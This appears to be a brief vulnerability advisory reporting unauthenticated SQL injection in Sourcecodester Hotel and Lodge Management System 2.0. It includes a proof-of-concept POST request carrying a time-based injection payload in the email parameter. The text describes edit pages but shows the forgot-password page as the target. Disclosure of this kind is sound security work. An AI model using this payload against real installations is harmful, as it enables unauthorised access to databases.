



HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI

Disclosure date: 10/24/19

Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'email' parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

